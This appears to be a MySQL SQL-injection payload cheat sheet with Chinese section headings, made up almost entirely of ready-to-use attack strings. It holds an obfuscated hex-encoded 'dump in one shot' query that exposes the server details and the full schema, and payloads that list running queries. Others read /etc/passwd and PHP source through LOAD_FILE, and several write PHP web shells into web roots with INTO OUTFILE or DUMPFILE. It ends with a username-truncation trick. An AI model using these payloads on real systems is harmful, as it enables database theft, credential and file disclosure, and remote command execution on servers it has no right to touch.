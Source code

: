 	+/*!13337concat*/(0x3c616464726573733e3c63656e7465723e3c62723e3c68313e3c666f6e7420636f6c6f723d22526564223e496e6a6563746564206279204e315a344d3c2f666f6e743e3c68313e3c2f63656e7465723e3c62723e3c666f6e7420636f6c6f723d2223663364393361223e4461746162617365207e3e3e203c2f666f6e743e,database/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643936223e56657273696f6e207e3e3e203c2f666f6e743e,@@version,0x3c62723e3c666f6e7420636f6c6f723d2223306637363964223e55736572207e3e3e203c2f666f6e743e,user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643365223e506f7274207e3e3e203c2f666f6e743e,@@port,0x3c62723e3c666f6e7420636f6c6f723d2223346435613733223e4f53207e3e3e203c2f666f6e743e,@@version_compile_os,0x2c3c62723e3c666f6e7420636f6c6f723d2223366134343732223e44617461204469726563746f7279204c6f636174696f6e207e3e3e203c2f666f6e743e,@@datadir,0x3c62723e3c666f6e7420636f6c6f723d2223333130343362223e55554944207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223363930343637223e43757272656e742055736572207e3e3e203c2f666f6e743e,current_user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223383432303831223e54656d70204469726563746f7279207e3e3e203c2f666f6e743e,@@tmpdir,0x3c62723e3c666f6e7420636f6c6f723d2223396336623934223e424954532044455441494c53207e3e3e203c2f666f6e743e,@@version_compile_machine,0x3c62723e3c666f6e7420636f6c6f723d2223396630613838223e46494c452053595354454d207e3e3e203c2f666f6e743e,@@CHARACTER_SET_FILESYSTEM,0x3c62723e3c666f6e7420636f6c6f723d2223393234323564223e486f7374204e616d65207e3e3e203c2f666f6e743e,@@hostname,0x3c62723e3c666f6e7420636f6c6f723d2223393430313333223e53797374656d2055554944204b6579207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223613332363531223e53796d4c696e6b20207e3e3e203c2f666f6e743e,@@GLOBAL.have_symlink,0x3c62723e3c666f6e7420636f6c6f723d2223353830633139223e53534c207e3e3e203c2f666f6e743e,@@GLOBAL.have_ssl,0x3c62723e3c666f6e7420636f6c6f723d2223393931663333223e42617365204469726563746f7279207e3e3e203c2f666f6e743e,@@basedir,0x3c62723e3c2f616464726573733e3c62723e3c666f6e7420636f6c6f723d22626c7565223e,(/*!13337select*/(@a)/*!13337from*/(/*!13337select*/(@a:=0x00),(/*!13337select*/(@a)/*!13337from*/(information_schema.columns)/*!13337where*/(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=/*!13337concat*/(@a,table_schema,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,table_name,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,column_name,0x3c62723e))))a))+

	(select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
 ##### 当前查询
  	该表可以列出 DB 目前正在执行的所有操作
	union SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #

	一条语句导出此表内容
	union select 1,(select(@)from(select(@:=0x00),(select(@)from(information_schema.processlist)where(@)in(@:=concat(@,0x3C62723E,state,0x3a,info))))a),3,4 #
 ##### 读取文件内容
  	filepriv
	' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
	UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
	GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
 ##### 写shell
  	[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
	[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
	[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
	[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'

	[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
	[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
 ##### 截断
  	在 MYSQL 中“ admin ”和“ admin”是一样的。如果数据库中的用户名列有字符限制，则其余字符将被截断。因此，如果数据库的列限制为 20 个字符，并且我们输入一个包含 21 个字符的字符串，那么最后 1 个字符将被删除。
	`username` varchar(20) not null
	payload：username = "admin a"
 ##### 快速查询
  	MySQL >= 5.7.22
	group_concat() = 1024 个符号
	json_arrayagg() > 16,000,000 个符号